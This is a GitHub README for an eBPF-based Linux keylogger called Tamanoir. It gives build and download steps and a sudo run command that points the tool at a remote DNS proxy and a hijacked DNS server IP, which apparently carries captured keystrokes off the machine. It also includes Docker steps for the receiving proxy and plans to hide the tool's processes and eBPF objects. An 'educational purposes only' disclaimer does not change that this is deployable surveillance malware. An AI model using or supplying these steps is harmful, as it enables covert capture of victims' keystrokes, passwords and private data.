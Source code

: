 <div align="center">
  <h1> Tamanoir <br> A KeyLogger using eBPF </h1>
  <img src="https://github.com/user-attachments/assets/47b8a0ef-6a52-4e2d-8188-e77bb9e98d79" style="width: 40%; height: 40%"</img>
</div>

## 💡Overview

<div align="center">
  <img src="https://github.com/user-attachments/assets/24f80020-9d60-4f2a-825b-ed56574dfb24" </img>
</div>

<br>

## Setup

### Tamanoir

#### 📜 Prerequisites

A Linux based OS.

#### 🚀 Installation

##### Build from source

To build from source, make sure you have:

- [bpf-linker](https://github.com/aya-rs/bpf-linker) installed.
- [Rust](https://www.rust-lang.org/tools/install) installed with `nightly` toolchain.

1. Build ebpf program

```
cd tamanoir-ebpf
cargo build --release
```

2. Build user space program

```
cargo build --release
```

This will produce an executable file at `target/release/tamanoir` that you can copy to a directory in your `$PATH`

##### 📥 Binary release

You can download the pre-built binaries from the [release page](https://github.com/pythops/tamanoir/releases)

#### 🪄 Usage

2. Run

```
RUST_LOG=info sudo -E tamanoir \
              --proxy-ip <DNS proxy IP> \
              --hijack_ip <locally configured DNS server IP> \
              --layout <keyboard layout>
```

for example:

```
RUST_LOG=info sudo -E tamanoir \
              --proxy-ip 192.168.1.75 \
              --hijack_ip 8.8.8.8 \
              --layout 0
```

Currenly, there are two supported keyboard layouts:

`0` : qwerty (us)

`1` : azerty (fr)

### DNS Proxy

On a remote host, make sure you have:

- [docker](https://docs.docker.com/engine/install/) installed.

1. Build proxy image

```
cd proxy
docker build -t proxy .
```

2. Run proxy

> [!NOTE]
> Make sure port 53 is available

```
docker run --rm -it -p 53:53/udp -e PAYLOAD_LEN=8 proxy
```

<br>

## 🛠️TODO

- [ ] Automatic discovery of the configured local dns server
- [ ] Automatic discovery of the keyboard layout
- [ ] Rewrite the DNS proxy in Rust
- [ ] Make `Tamanoir` stealth (hide used ebpf maps and programs, process pid ...)

<br>

## ⚠️ Disclaimer

`Tamanoir` is developed for educational purposes only

<br>

## ✍️ Authors

[Badr Badri](https://github.com/pythops)

[Adrien Gaultier](https://github.com/adgaultier)

<br>

## ⚖️ License

GPLv3
